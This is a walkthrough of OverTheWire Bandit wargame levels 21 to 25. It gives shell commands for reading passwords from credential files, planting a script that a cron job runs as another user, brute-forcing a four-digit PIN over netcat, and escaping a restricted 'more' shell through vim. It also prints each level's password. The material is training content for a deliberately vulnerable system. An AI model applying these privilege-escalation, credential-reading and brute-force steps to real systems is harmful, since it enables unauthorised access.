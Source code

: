 Level 21:

Given:A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.
```

bandit21@bandit:/etc/cron.d$ ls -lah
total 48K
drwxr-xr-x   2 root root 4.0K Apr 10 14:24 .
drwxr-xr-x 121 root root  12K Apr 21 12:42 ..
-rw-r--r--   1 root root  123 Apr 10 14:16 clean_tmp
-rw-r--r--   1 root root  120 Apr 10 14:23 cronjob_bandit22
-rw-r--r--   1 root root  122 Apr 10 14:23 cronjob_bandit23
-rw-r--r--   1 root root  120 Apr 10 14:23 cronjob_bandit24
-rw-r--r--   1 root root  201 Apr  8  2024 e2scrub_all
-rwx------   1 root root   52 Apr 10 14:24 otw-tmp-dir
-rw-r--r--   1 root root  102 Mar 31  2024 .placeholder
-rw-r--r--   1 root root  396 Jan  9  2024 sysstat
bandit21@bandit:/etc/cron.d$ cat cronjob_bandit22 
@reboot bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
* * * * * bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
bandit21@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit22.sh
#!/bin/bash
chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
bandit21@bandit:/etc/cron.d$cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q
```

`The password level 22 = tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q`

Level 22:

Given:

A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: Looking at shell scripts written by other people is a very useful skill. The script for this level is intentionally made easy to read. If you are having problems understanding what it does, try executing it to see the debug information it prints.

```
bandit22@bandit:/etc/cron.d$ cat cronjob_bandit23 
@reboot bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
* * * * * bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
bandit22@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit23.sh
#!/bin/bash

myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

cat /etc/bandit_pass/$myname > /tmp/$mytarget

```

This script is caculating the md5sum which will is the name of tmp directory password is stored so we can just calculate md5sum for bandit23 to get the password.
```
bandit22@bandit:/etc/cron.d$ echo I am user bandit23 | md5sum
8ca319486bfbbc3663ea0fbe81326349  -
bandit22@bandit:/etc/cron.d$ cat /tmp/8ca319486bfbbc3663ea0fbe81326349
0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
bandit22@bandit:/etc/cron.d$ 
```

`The password for next level = 0Zf11ioIjMVN551jX3CmStKLYqjk54Ga`

Level 23: 
Given:
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…


In this level we just have to write a script to read password for next level from
/etc/bandit_pass/bandit24 which is owned by bandit 24.

```

bandit23@bandit:/etc/cron.d$ ls
clean_tmp  cronjob_bandit22  cronjob_bandit23  cronjob_bandit24  e2scrub_all  otw-tmp-dir  sysstat
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24 
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done


```

in above script we can see that script in  are being executed by bandit 24 so now we just have make a script and cp this to /var/spool/bandit24/foo

making tmp directory:
```
bandit23@bandit:/etc/cron.d$ mkdir /tmp/bandit_24_random
bandit23@bandit:/etc/cron.d$ cd /tmp/bandit_24_random
bandit23@bandit:/tmp/bandit_24_random$ nano script.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/bandit_24_random$ pwd
/tmp/bandit_24_random
bandit23@bandit:/tmp/bandit_24_random$ nano script.sh 
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/bandit_24_random$ cat script.sh 
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/bandit_24_random/pass

bandit23@bandit:/tmp/bandit_24_random$ touch pass
bandit23@bandit:/tmp/bandit_24_random$ chmod 777 -R script.sh 
bandit23@bandit:/tmp/bandit_24_random$ cp script.sh /var/spool/bandit24/foo/
bandit23@bandit:/tmp/bandit_24_random$ cat pass 
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8

```

when we copy script to /var/spool/bandit24/foo after 1 mintue we get the password
`the password for level 24 = gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8`

Level 24:

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time

we just have to write a script for brute forcing using loop

script:
```
cat script.sh 
#!/bin/bash

pass="gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8"

{ 
  for pin in $(seq -w 0000 9999); do 
    echo "$pass $pin"
  done 
} | nc localhost 30002


```

After many failed attempts got the password:
```
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```

`The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4`

Level 25:

Given:
Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.

First of all we have to check what shell is used in bandit 26 
```
bandit25@bandit:~$ cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
bandit25@bandit:~$ file /usr/bin/showtext
/usr/bin/showtext: POSIX shell script, ASCII text executable
bandit25@bandit:~$ cat /usr/bin/showtext
#!/bin/sh

export TERM=linux

exec more ~/text.txt
exit 0
bandit25@bandit:~$ 
```

**It runs more ~/text.txt instead of giving you a bash shell.**

Now we Just have to make our terminal window smaller 

Now we are in vim now we can read /etc/bandit_pass/bandit26 using this command:

`:e /etc/bandit_pass/bandit26`

we got the password in vim

```
s0773xxkk0MXfdqOfPRVr9L3jJBUOgCZ
~                                                                                           
~                                                                                           
~                                                                                           
~                                                                                           
~                                                                                           
~

```

`The password for Level 26 = s0773xxkk0MXfdqOfPRVr9L3jJBUOgCZ`

